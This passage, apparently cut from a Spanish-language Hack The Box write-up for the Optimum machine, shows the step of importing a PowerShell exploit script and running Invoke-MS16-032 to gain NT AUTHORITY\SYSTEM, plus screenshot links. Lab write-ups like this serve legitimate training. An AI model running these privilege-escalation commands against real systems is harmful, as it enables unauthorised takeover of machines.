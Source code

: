 6. Ejecutamos el script 

`` Import-Module ./39719.ps1 ``

`` Invoke-MS16-032 ``

![](/assets/images/HTB/Optimum-HackTheBox/exploit4.png)

Recibiremos la conexión y ya seremos NT AUTHORITY\SYSTEM

![](/assets/images/HTB/Optimum-HackTheBox/root.png)



